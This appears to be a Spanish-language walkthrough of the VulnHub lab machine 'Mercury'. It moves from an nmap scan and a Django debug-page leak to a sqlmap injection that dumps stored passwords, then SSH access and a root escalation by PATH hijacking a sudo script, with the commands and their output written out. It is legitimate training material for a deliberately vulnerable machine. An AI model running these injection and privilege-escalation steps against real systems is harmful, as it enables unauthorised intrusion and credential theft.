 https://www.vulnhub.com/entry/the-planets-mercury,544/

# Mercury

## Datos

IP Atacante: 192.168.0.25
IP Victima: 192.168.0.31

## Recon

### Nmap

```
datadiego@~ nmap -Pn 192.168.0.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:50 CET
Nmap scan report for 192.168.0.31
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

## Web

En la maquina hay un servidor http, en el index solo hay un mensaje en plano:

```
Hello. This site is currently in development please check back later.
```

Existe un robots.txt:

```
User-agent: * 
Disallow: /
```

Si intentamos entrar a cualquier otra pagina que no existe:

```

Page not found (404)
Request Method: 	GET
Request URL: 	http://192.168.0.31:8080/hello

Using the URLconf defined in mercury_proj.urls, Django tried these URL patterns, in this order:

    [name='index']
    robots.txt [name='robots']
    mercuryfacts/

The current path, hello, didn't match any of these.

You're seeing this error because you have DEBUG = True in your Django settings file. Change that to False, and Django will display a standard 404 page.
```

Ahora sabemos que el servidor es un django, y que existe un endpoint `mercuryfacts`.

Cuando accedemos a /mercuryfacts encontramos otros dos endpoints:

- /mercuryfacts/todo
- /mercuryfacts/:number

En la lista de /todo:
```
 Still todo:

    Add CSS.
    Implement authentication (using users table)
    Use models in django instead of direct mysql call
    All the other stuff, so much!!!
```

Lanzamos sqlmap:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --dbs --batch
```

Encuentra lo siguiente:

```
sqlmap identified the following injection point(s) with a total of 1876 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.0.31:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x7170706b71,(SELECT (ELT(7619=7619,1))),0x7170707a71),7619)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.0.31:8080/mercuryfacts/(CASE WHEN (5772=5772) THEN SLEEP(5) ELSE 5772 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: http://192.168.0.31:8080/mercuryfacts/-9431 UNION ALL SELECT CONCAT(0x7170706b71,0x746152665350437975484f575550785542644a64465743704a555253535467456c67735377476378,0x7170707a71)#
---
[05:11:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[05:11:02] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

[05:11:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.0.31'

[*] ending @ 05:11:02 /2025-02-11/
```

Sacamos datos de las tablas con:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --current-db -D mercury --batch --dump-all
```

Encontramos lo siguiente:

```
[05:50:50] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

Ningun usuario funciona en SSH excepto `webmaster`

Encontramos la user_flag.txt:

```
user_flag_8339915c9a454657bd60ee58776f4ccd
```

En `/etc/passwd` encontramos otro usuario:
linuxmaster:x:1002:1002:,,,:/home/linuxmaster:/bin/bash

Encontramos el hash de ambos:

```
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

Descodificamos la contraseña:

```
webmaster@mercury:~/mercury_proj/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```

Entramos por SSH o mediante `su linuxmaster` y comprobamos permisos con sudo -l:

```
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

Comprobamos el archivo:

```
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh 
#!/bin/bash
tail -n 10 /var/log/syslog
```

El comando se esta ejecutando directamente, sin especificar la ruta absoluta, por lo que es vulnerable a `path hijacking`.

Podemos hacer lo siguiente:

```
linuxmaster@mercury:~$ mkdir /tmp/malito
```

Dentro del directorio, creamos un `.sh` que ejecute una shell con nano:

```
#!/bin/bash
/bin/bash
```

Damos permisos con `chmod +x /tmp/malito/tail`.
Exportamos la variable con `export PATH=/tmp/malito:$PATH`
Ejecutamos el script utilizando la variable de entorno con `sudo --preserve-env=PATH /usr/bin/check_syslog.sh`

Obtenemos acceso a root!

```
linuxmaster@mercury:~$ cd /tmp/malito/
linuxmaster@mercury:/tmp/malito$ ls
linuxmaster@mercury:/tmp/malito$ nano tail
linuxmaster@mercury:/tmp/malito$ ls
tail
linuxmaster@mercury:/tmp/malito$ chmod +x /tmp/malito/tail 
linuxmaster@mercury:/tmp/malito$ export PATH=/tmp/malito:$PATH
linuxmaster@mercury:/tmp/malito$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
[sudo] password for linuxmaster: 
root@mercury:/tmp/malito# whoami
root
root@mercury:/tmp/malito# 
```
